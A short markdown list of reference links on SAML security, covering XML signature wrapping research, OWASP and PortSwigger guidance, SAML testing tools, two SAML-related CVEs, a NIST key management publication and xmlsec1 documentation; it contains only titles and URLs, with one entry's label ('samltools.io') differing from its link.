- [OWASP SAML Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SAML_Security_Cheat_Sheet.html)
- [XML Signature Wrapping Attacks — research paper](https://www.usenix.org/legacy/event/sec09/tech/full_papers/jager.pdf)
- [PortSwigger: SAML Vulnerabilities](https://portswigger.net/web-security/oauth/saml)
- [SAML Raider Burp Extension](https://github.com/SAMLRaider/SAMLRaider)
- [samltools.io — SAML utilities](https://www.samltool.com/)
- [CVE-2017-11427 — OneLogin SAML bypass](https://nvd.nist.gov/vuln/detail/CVE-2017-11427)
- [CVE-2018-0489 — Shibboleth IdP SAML XSW](https://nvd.nist.gov/vuln/detail/CVE-2018-0489)
- [Breaking SAML: Be Whoever You Want to Be](https://www.usenix.org/conference/usenixsecurity12/technical-sessions/presentation/somorovsky)
- [NIST SP 800-130: A Framework for Designing Cryptographic Key Management Systems](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-130.pdf)
- [xmlsec1 Documentation](https://www.aleksey.com/xmlsec/)
